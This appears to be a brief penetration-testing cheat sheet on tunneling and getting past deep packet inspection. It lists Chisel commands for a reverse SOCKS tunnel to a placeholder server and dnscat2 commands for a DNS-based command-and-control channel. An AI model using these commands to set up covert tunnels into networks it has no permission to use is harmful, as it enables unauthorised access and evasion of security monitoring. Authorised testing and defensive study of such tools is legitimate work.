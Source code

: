 # Tunneling & DPI Bypass

## Chisel

```shell
chisel server --port 8080 --reverse
chisel client <server>:8080 R:socks
```

## DNSCat2

```shell
dnscat2-server domain
dnscat --dns domain
```
